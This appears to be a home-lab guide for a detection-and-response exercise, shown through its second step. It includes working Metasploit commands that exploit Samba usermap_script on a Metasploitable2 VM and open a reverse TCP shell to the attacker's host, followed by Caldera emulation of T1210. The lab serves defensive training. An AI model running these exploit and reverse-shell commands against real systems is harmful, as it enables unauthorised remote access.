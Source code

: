 
## High-level workflow

1. Simulate an exploit against Metasploitable2 using Metasploit and record `attack_start` timestamp.
2. Emulate TTPs with Caldera (T1210 — Exploitation of Remote Services).
3. Detect the exploit using Wazuh — custom rule provided.
4. Triage the alert in TheHive; automate response via a TheHive playbook that calls CrowdSec.
5. Use CrowdSec to add a ban decision for the attacker IP and verify reachability is blocked.
6. Preserve evidence and isolate the VM.
7. Compute MTTD, MTTR, and dwell time in Kibana using runtime fields and build a dashboard.
8. Perform RCA (5 Whys + Fishbone) and write reports for technical and executive audiences.

---

## Step 1 — Attack simulation (Metasploit)

**Commands (run on Kali):**

```bash
# Start Metasploit
msfconsole

# Use the Samba usermap_script exploit
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.102
set RPORT 139
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST <YOUR_KALI_IP>
set LPORT 4444
run
```

**Instructions:**

* Note the exact timestamp when you run `run`; this is `attack_start` and will be used for metrics.
* Capture any console output in a file if you want (copy/paste or `script` command) for evidence.

---

## Step 2 — Adversary emulation (Caldera)

**Goal:** Emulate T1210 (Exploitation of Remote Services). We only need an operation that mimics initial access and a simple shell execution.

**Suggested Caldera choices:**

* Adversary: create or reuse an adversary profile named `lab-T1210`.
* Abilities chain: `InitialAccess -> ExecuteShell -> FileDownload` (or a single ability that executes a harmless `whoami` or `uname -a` on the target).
* Executor: `linux` (or `sh`) depending on your Caldera installation.

**Notes:**

* Start the operation and record `operation_start` timestamp. Ensure Caldera logs are configured to forward telemetry to Wazuh (e.g., syslog or filebeat) if you want Caldera events visible in Elastic.

---